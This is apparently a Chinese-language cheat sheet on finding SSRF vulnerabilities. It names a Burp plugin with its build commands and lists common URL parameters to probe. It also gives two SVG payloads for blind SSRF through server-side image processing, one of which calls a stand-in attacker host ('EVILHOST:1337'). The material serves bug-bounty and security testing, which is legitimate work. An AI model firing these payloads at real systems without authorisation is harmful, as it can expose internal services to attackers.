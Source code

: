 # SSRF 漏洞挖掘技巧

## 0x1 自动化挖掘SSRF

### 0x1.1 组合思路

![Et9d-mlXYAE7cg0](常用的SSRF参数.assets/Et9d-mlXYAE7cg0-3134197.jpeg)

### 1.2 burp插件SSRF-king

```
git clone https://github.com/ethicalhackingplayground/ssrf-king
gradle build
```

> 自动使用burpcollaborator来进行探测非常方便

介绍链接:https://www.kitploit.com/2021/01/ssrf-king-ssrf-plugin-for-burp.html?utm_source=dlvr.it&utm_medium=twitter





## 常用的SSRF参数

```
?url=[SSRF]
?q=[SSRF]
?u=[SSRF]
?link=[SSRF]
?host=[SSRF]
?file=[SSRF]
?path=[SSRF]
?imgurl=[SSRF]
?src=[SSRF]
?consumerUri=[SSRF]
```



##  挖掘SSRF一些技巧

### svg服务端图片处理导致的盲ssrf

Content-Type: image/svg+xml

```
<?xml version="1.0" encoding="UTF-8" standalone="no"?><svg xmlns:svg="http://www.w3.org/2000/svg" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="200" height="200"><image height="200" width="200" xlink:href="http://<EXAMPLE_SERVER>/image.jpeg" /></svg>


<svg xmlns:svg=”http://w3.org/2000/svg" xmlns=”http://w3.org/2000/svg" xmlns:xlink=”http://w3.org/1999/xlink" width=”200" height=”200">
<image height=”30" width=”30" xlink:href=”http://EVILHOST:1337/SVG-SSRF-TEST" />
</svg>
```

利用参考:https://hackerone.com/reports/223203

